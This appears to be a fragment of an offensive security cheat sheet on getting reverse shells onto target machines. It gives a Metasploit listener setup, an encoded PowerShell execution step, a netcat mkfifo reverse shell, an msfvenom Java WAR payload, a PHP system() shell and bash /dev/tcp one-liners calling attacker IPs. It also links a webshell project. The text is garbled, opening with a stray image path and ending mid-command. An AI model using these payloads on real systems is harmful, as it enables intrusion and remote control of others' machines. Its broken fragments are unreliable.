 Then copy the string shown in the output. **Step 5** On the attacker box start a listener with Metasploit

```
use exploit/multi/handler
set payload windows/meterpreter/reverse https
set LHOST ip-attacker
set LPORT 443
exploit -j
```

**Step 6** Execute the below command on the target machine

```powershell
powershell. exe -noexit -encodedCommand [paste-the-output-from-step-4]
```

Now check the listener and you should have received a shell.

### Pre Comprmise

The below reverse shells can be used to establish the first foothold.

#### Netcat shell one liner

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.81.146 4547 >/tmp/f
```

#### Creating Java reverse shell

```bash
msfvenom -p java/shell_reverse_tcp LHOST=ip LPORT=port -f war -o shell.war
```

#### PHP shell

\[1]

```php
<pre>system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'")</pre>
```

\[2] Webshell: p0wny-shell Link below

```
https://github.com/flozz/p0wny-shell
```

#### Bash Shell

**TCP**

\[1]

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

\[2]


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"